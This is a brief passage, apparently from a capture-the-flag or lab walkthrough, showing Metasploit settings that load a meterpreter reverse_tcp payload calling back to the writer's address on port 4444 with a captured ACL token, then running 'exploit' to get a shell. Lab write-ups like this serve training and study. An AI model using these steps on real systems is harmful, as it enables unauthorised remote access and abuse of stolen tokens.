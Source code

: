 > set necessary information 

```
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set rhosts 127.0.0.1
set lhost 10.10.16.47 #<my ip>
set lport 4444
set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
```

![](./IMG/40.png)

 > Run exploit and get meterpreter back

```
exploit 
```
